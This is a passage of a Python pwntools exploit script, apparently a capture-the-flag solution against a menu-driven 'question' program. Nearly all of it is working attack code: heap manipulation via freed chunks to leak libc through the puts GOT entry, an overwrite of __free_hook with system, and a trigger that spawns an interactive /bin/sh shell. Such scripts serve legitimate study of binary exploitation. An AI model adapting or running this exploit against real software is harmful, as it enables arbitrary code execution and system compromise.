 ```
    p.sendlineafter(b"Enter question id: ", qid)
    p.sendlineafter(b"Enter your question: ", payload)

def del_question(qid):
    p.sendlineafter(b"Enter your choice, (or press enter to refresh): ", b"D")
    p.sendlineafter(b"Enter question id: ", qid)

def ask_question(qid):
    p.sendlineafter(b"Enter your choice, (or press enter to refresh): ", b"A")
    p.sendlineafter(b"Enter question id: ", qid)

def padding(size):
    return cyclic(size * 8, alphabet=string.ascii_uppercase, n=8).encode()

def ret_addr(p, name):
    p.recvuntil(b"I have the answer perhaps: ")
    line = p.recvline().replace(b"'", b"").replace(b"\n", b"")
    addr = u64(line.ljust(8, b"\x00"))
    print(f"{name} addr : {hex(addr)}")
    return addr

# Step 1: Leak libc base address using puts GOT entry
def leak_libc_base():
    qid0 = create_question()
    qid1 = create_question()
    del_question(qid0)
    del_question(qid1)

    set_question(qid0, padding(5) + p64(0x31) + padding(3) + p64(puts_got))
    ask_question(qid1)
    libc_addr = ret_addr(p, 'libc')

    libc_base = libc_addr - puts_offset
    return libc_base, qid0, qid1

# Step 2: Exploit using free_hook and system to get a shell
def exploit(libc_base, qid0, qid1):
    system_addr = libc_base + system_offset
    free_hook_addr = libc_base + free_hook_offset
    bin_sh_addr = libc_base + bin_sh_offset

    # Overwrite free_hook with system address
    set_question(qid0, padding(5) + p64(0x31) + padding(3) + p64(free_hook_addr))
    set_question(qid1, p64(system_addr))
    
    # Set argument for system to /bin/sh
    set_question(qid0, padding(5) + p64(0x31) + padding(3) + p64(bin_sh_addr))

    # Trigger system("/bin/sh")
    del_question(qid1)
    p.interactive()

# Execute exploit
libc_base, qid0, qid1 = leak_libc_base()
print(f"Calculated libc base address: {hex(libc_base)}")
exploit(libc_base, qid0, qid1)
```
